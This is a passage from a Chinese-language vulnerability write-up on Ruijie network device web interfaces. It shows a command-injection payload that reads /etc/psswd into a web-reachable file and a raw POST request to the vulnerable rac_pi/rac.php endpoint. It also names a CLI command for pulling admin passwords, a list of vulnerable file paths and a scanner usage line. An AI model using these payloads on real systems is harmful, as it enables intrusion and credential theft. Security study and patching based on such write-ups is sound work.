                 pass=|cat /etc/psswd>../test_test.txt

     

  * 后台命令执行三

####

漏洞文件rac_pi/rac.php

![]()

可以直接读文件，或者截断命令执行

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /rac_pi/rac.php?a=getPlatList HTTP/1.1Host: User-Agent: Go-http-client/1.1Content-Length: 41Content-Type: application/x-www-form-urlencodedCookie: RUIJIEID=52222egp72ilkpf2de7qbrigk3;user=admin;X-Requested-With: XMLHttpRequestAccept-Encoding: gzip  
    path=  
    

       

 **0x02  后渗透**

命令行获取密码  

本地命令行获取WEB管理端密码cls-webuser-list

![]()

 **0x03  利用工具**

扫描文末二维码加入圈子获取  

  * Help

![]()

  * 漏洞检测

判断前台漏洞文件是否存在

  * ddi/server/fileupload.php;

  * guest_auth/guestIsUp.php;

  * ddi/server/login.php;

###  

  * 单URL检测

###

  * 

    
    
    ruijie-check check -u http://127.0.0.1

![]()
